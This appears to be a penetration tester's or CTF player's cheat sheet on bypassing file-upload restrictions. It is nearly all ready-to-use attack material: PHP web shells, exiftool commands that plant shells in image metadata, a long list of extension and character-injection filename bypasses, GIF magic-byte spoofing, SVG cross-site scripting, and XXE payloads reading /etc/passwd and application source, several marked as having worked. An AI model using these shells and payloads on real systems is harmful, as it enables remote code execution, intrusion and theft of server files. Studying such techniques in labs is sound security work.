 
- Change mime type
- Add image headers
- Add payload in exiftool comment and name file as file.php.png
- ExifTool 
    - 1. <?php system($_GET['cmd']); ?> //shell.php 
    - 2. exiftool "-comment<=shell.php" malicious.png 
    - 3. strings malicious.png | grep system

##### Paylaods
https://github.com/KathanP19/HowToHunt/blob/master/File_Upload/file_upload.md

# Blacklist Filters
- paylaods
```bash
.phtml
.php5
.phps
.pht
.phtm
.phar // worked
```
- shell
```php
<?php system($_REQUEST["cmd"]); ?>
```

# Whitelist Filters

- `shell.phar;.jpg` (worked)
- `shell.jpg.php` ✅ (may pass weak whitelist regex)
- `shell.php.jpg` ✅ (bypasses strict whitelist but executes if server uses weak `FilesMatch`)
- `shell.php%00.jpg` ✅ (bypasses old PHP 5.x or vulnerable setups)
- `shell.phtml` ✅ (works if `.phtml` is not blacklisted)
- `shell.phar` ✅ (supported by some Apache configs)
#### Character Injection
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

```bash
shell%20.php.jpg
shell.php%20.jpg
shell.jpg%20.php
shell.jpg.php%20
shell%20.phps.jpg
shell.phps%20.jpg
shell.jpg%20.phps
shell.jpg.phps%20
shell%0a.php.jpg
shell.php%0a.jpg
shell.jpg%0a.php
shell.jpg.php%0a
shell%0a.phps.jpg
shell.phps%0a.jpg
shell.jpg%0a.phps
shell.jpg.phps%0a
shell%00.php.jpg
shell.php%00.jpg
shell.jpg%00.php
shell.jpg.php%00
shell%00.phps.jpg
shell.phps%00.jpg
shell.jpg%00.phps
shell.jpg.phps%00
shell%0d0a.php.jpg
shell.php%0d0a.jpg
shell.jpg%0d0a.php
shell.jpg.php%0d0a
shell%0d0a.phps.jpg
shell.phps%0d0a.jpg
shell.jpg%0d0a.phps
shell.jpg.phps%0d0a
shell/.php.jpg
shell.php/.jpg
shell.jpg/.php
shell.jpg.php/
shell/.phps.jpg
shell.phps/.jpg
shell.jpg/.phps
shell.jpg.phps/
shell.\\.php.jpg
shell.php.\\.jpg
shell.jpg.\\.php
shell.jpg.php.\\
shell.\\.phps.jpg
shell.phps.\\.jpg
shell.jpg.\\.phps
shell.jpg.phps.\\
shell..php.jpg
shell.php..jpg
shell.jpg..php
shell.jpg.php.
shell..phps.jpg
shell.phps..jpg
shell.jpg..phps
shell.jpg.phps.
shell….php.jpg
shell.php….jpg
shell.jpg….php
shell.jpg.php…
shell….phps.jpg
shell.phps….jpg
shell.jpg….phps
shell.jpg.phps…
shell:.php.jpg
shell.php:.jpg
shell.jpg:.php
shell.jpg.php:
shell:.phps.jpg
shell.phps:.jpg
shell.jpg:.phps
shell.jpg.phps:
```


# # Type Filters

**Server uses `mime_content_type()`** or similar, so we must **fake magic bytes** (e.g. start the file with `GIF89a` or `GIF8`).

```php
GIF89a;
<?php system($_GET['cmd']); ?
```

```php
GIF8
<?php system($_GET['cmd']); ?>
```

- `shell.gif.phar` (worked)
- `shell.php.gif`

# Limited File Uploads (svg)

## XSS (Cross Site Scripting)

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE ( XML external entity (XXE) injection)


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

(worked)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text>&xxe;</text>
</svg>
```

base64 (worked)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/upload.php">
]>
<svg>&xxe;</svg>
```

worked with `Untitled./phar;.svg`

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
<?php system($_GET['cmd']); ?>
```
